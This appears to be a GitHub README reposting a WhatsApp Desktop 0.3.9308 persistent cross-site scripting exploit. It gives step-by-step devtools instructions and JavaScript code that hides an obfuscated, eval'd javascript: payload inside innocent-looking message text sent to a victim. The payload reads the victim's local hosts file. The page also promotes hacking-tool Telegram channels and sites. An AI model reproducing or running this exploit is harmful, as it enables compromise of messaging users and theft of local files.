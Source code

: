 # ![Pic](https://raw.githubusercontent.com/attakercyebr/Whatsapp-Desktop-session-hijacking-/main/1.jpg) 


## Description:
----------------------
- // Title: WhatsApp Desktop 0.3.9308 - Persistent Cross-Site Scripting

- // Date: 2020-01-21

- // Vendor Homepage: https://www.whatsapp.com

- // Software Link: https://web.whatsapp.com/desktop/windows/release/x64/WhatsAppSetup.exe

- // Software Link: https://web.whatsapp.com/desktop/mac/files/WhatsApp.dmg

- // Version: 0.3.9308

- // Exploit Author: Gal Weizman

- // Tested On: Mac OS, Windows, iPhone

## Get a license
----------------------
- 🎁 Totally free for all channel members.


## how to work :
----------------------
- // step 1: open WhatsApp Web and enter a conversation (Will only work on WhatsApp Web source code as compiled with version 0.3.9308)

- // step 2: open devtools and search in all files "t=e.id"

- // step 3: after prettifying, set a breakpoint at the line where "t = e.id" can be found

- // step 4: paste "https://example.com" in the text box and hit "Enter"

- // step 5: when the code stops at the breakpoint, paste the following exploit code in the console and hit "Enter"

- // step 6: press F8 in order for the execution to continue

- // result: a message should be sent to the victim that once is clicked will execute the payload above

## Code
----------------------

```javascript
var payload = `(async function() {
alert(navigator.userAgent);
(async function() {
// read "file:///C:/windows/system32/drivers/etc/hosts" content
const r = await fetch(atob('ZmlsZTovLy9DOi93aW5kb3dzL3N5c3RlbTMyL2RyaXZlcnMvZXRjL2hvc3Rz'));
const t = await r.text();
alert(t);
}())
}())`;

payload = `javascript:"https://example.com";eval(atob("${btoa(payload)}"))`;

e.__x_matchedText = payload;

e.__x_body = `
Innocent text

${payload}

More Innocent text
`;

```

## video:
----------------------
- # ![video](https://drive.google.com/file/d/1b9Nk47asoylREdLHGsqO3WlmHxrlkCvg/view) 


## Visit the following channels and sites for more training and tools:
----------------------
- 🔞 https://m4nifest0.com
- 🔞 https://m4nifest0.group
- 🔞 https://m4nifest0.shop
- 🔞 https://t.me/M4nifest0

----------------------

<h2>
<p align="center">	
</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://t.me/M4nifest0">
		<img src="https://img.shields.io/badge/Telegram-%23000000.svg?&style=for-the-badge&logo=Telegram&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://twitter.com/_M4nifest0_">
		<img src="https://img.shields.io/badge/twitter-%231DA1F2.svg?&style=for-the-badge&logo=twitter&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://m4nifest0.com">
		<img src="https://img.shields.io/badge/WebSite-%234A154B.svg?&style=for-the-badge&logo=slack&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
</p>
